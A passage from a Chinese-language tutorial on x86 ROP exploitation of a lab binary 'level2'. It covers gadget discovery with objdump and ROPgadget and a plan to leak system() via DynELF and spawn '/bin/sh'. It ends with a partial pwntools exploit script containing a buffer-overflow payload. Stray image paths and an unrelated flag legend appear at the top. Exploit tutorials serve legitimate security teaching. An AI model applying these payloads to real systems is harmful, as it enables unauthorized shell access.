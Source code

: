 ```s
    O (extra OS processing required) o (OS specific), p (processor specific)

```

因为我们在执行完read()之后要接着调用`system(“/bin/sh”)`，栈中调用会发生昏乱，造成ROP链执行失败。

![Alt](img/x86_ROP18.png)

`read()`这个函数的参数有三个，所以我们需要一个`pop pop pop ret`的`gadget`用来保证栈平衡。键入命令：`objdump -d level2`

![Alt](img/x86_ROP16.png)

当然也可以使用ROPgadget，键入命令`ROPgadget --binary level2 | grep "pop"`

![Alt](img/x86_ROP17.png)

整个攻击过程：首先通过`DynELF`获取到`system()`的地址后，我们又通过`read`将`“/bin/sh”`写入到`.bss`段上，最后再调用`system（.bss）`，执行`“/bin/sh”`。最终的exp如下:

```python
    #!/usr/bin/python
    from pwn import *

    elf = ELF('./level2')
    plt_write = elf.symbols['write']
    plt_read = elf.symbols['read']
    vulfun_addr = 0x804843b

    def leak(address):
        payload1 = 'a'*140 + p32(plt_write) + p32(vulfun_addr) + p32(1) +p32(address) + p32(4)
        p.send(payload1)
        data = p.recv(4)
        print "%#x => %s" % (address, (data or '').encode('hex'))
        return data
```